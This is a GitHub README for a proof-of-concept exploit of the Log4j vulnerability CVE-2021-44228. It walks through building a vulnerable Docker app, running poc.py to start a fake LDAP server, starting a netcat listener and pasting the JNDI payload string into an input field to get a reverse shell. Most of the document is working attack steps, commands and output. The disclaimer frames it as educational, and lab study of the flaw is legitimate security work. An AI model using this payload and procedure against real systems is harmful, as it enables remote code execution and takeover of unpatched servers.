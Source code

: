 A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have seen how to exploit log4j vulnerability with a simple vulnerable application

You can download the POC and its dependency file from [here](https://drive.google.com/drive/folders/1gpNdCJnvYI0qjVJMeOFkfd_i3NCujTPT?usp=sharing).

#### Usage:

* Step #1 : Clone & Download the Vulnerable application from above.<br>
* Step #2 : Install Docker and run the following commands to host a vulnerable application. <br>

    ```c
    1: # docker build -t log4j-shell-poc .
    2: # docker run --network host log4j-shell-poc
    ```
    Once it is running, you can access it on localhost:8080

    <br>

* Step #3 : Download and extract the POC folder from above link and install it dependencies.<br>

    ```py
    $ pip3 install -r requirements.txt
    $ python3 poc.py --userip localhost --webport 8000 --lport 4545

    [!] CVE: CVE-2021-44228

    [!] Github repo: https://github.com/Hack-with-8k0b/log4j-poc

    [+] Exploit java class created success
    [+] Setting up fake LDAP server

    [+] Send me: ${jndi:ldap://localhost:1389/a}

    Listening on 0.0.0.0:1389
    ```
    
* Step #4 : Start a netcat listener in different terminal to accept reverse shell connection.<br>
```py
nc -lvnp 4545
```
* Step #5 : Copy & paste the link created by the poc into the vulnerable input field .<br>

    This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Disclaimer
----------
The above POC and Vulnerable App is simplified version of kozmer's Github log4jshell-poc, This POC is for educational purposes only, so use it on your own risks.

This is to help security researchers and newbies to learn about log4jshell vulnerablity and attack, for any concerns and queries feel free to reach me out @ nbharathkumara@gmail.com
